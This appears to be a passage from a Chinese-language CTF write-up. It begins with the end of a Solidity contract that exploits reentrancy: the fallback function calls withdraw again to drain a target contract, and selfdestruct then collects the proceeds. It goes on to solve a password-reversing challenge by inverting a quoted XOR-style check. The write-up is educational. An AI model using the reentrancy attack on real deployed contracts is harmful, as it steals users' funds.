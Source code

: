 ```js
    }
   
    //开始攻击合约
    function startattach() ownerOnly payable{
        require(msg.value >= 1);
       flag = 0;
       g.deposit.value(money)();
       g.withdraw(money);
    }
    
    
    // 销毁合约，相当于C++里的析构
    function stopattach() ownerOnly{
        selfdestruct(owner);
    }
    
    //fallback 函数
    function() payable{
        require(flag == 0);
        flag = 1;
        g.withdraw(money);
    }
 
}
```
## 没有 BUG 的教务系统
### 第一题
定位到判断代码
```cpp
    for (i = 0; i <= 7; ++i)
        temp_password[i] = ((temp_password[i] | temp_password[i + 1]) & ~(temp_password[i] & temp_password[i + 1]) | i) & ~((temp_password[i] | temp_password[i + 1]) & ~(temp_password[i] & temp_password[i + 1]) & i);
    if(memcmp(temp_password, "\x44\x00\x02\x41\x43\x47\x10\x63\x00", 9)) {
        cout << "Bad guy! Wrong password!" << endl;
        exit(0);
    }
```
会对当前位和下一位进行运算，但是循环并没有操作最后一个字符00，所以从后往前逆推即可得到第一个flag

## 比赛时间内未完成的题
个人尝试见[我的博客](https://XhyEax.github.io)

好几题都是差一步得出flag，还是太菜了 = =

